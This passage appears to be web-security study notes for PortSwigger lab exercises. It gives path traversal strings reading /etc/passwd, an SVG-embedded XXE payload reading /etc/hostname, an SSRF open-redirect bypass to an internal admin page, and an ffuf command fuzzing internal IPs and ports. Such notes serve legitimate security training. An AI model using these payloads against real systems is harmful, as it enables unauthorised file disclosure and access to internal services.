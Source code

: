 URL encode:
```bash
..%252f..%252f..%252fetc/passwd
```
Could be double encoded.

Null byte:
```bash
../../../etc/passwd%00.png
```


[Lab: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

#### File uploading

##### SVG file upload
Indicators:  
Image upload accepts svg files

[Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

working payload:
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

#### SSRF

Indicators:
Parameters containing full URLs.  
Parameters containing partial URLs but value submitted is then incorporated server-side into a full URL.  
Referer header visited by analytics software  

##### Filter bypass via open redirection

Indicators:  
`path` parameter contains a partial url: `path=/product?productId=2`  

Feed the `stockApi` parameter with `/product/nextProduct?path=http://192.168.0.12:8080/admin` in this specific lab. 

[Lab: SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)

In a real environment this kind of local IP address wouldn't be supplied so you need to fuzz. Use either burp Intruder of ffuf and change the value of the last octet and the port in for example `http://192.168.0.1:8080/admin`. Also you should try `http://localhost`.

POST request example:
```bash
ffuf -w <(seq 1 10000):FUZZ1 -w <(seq 1 255):FUZZ2  -u "http://target.com" -X POST -d "Api=http://192.168.0.FUZZ1:FUZZ2" -c -s
```
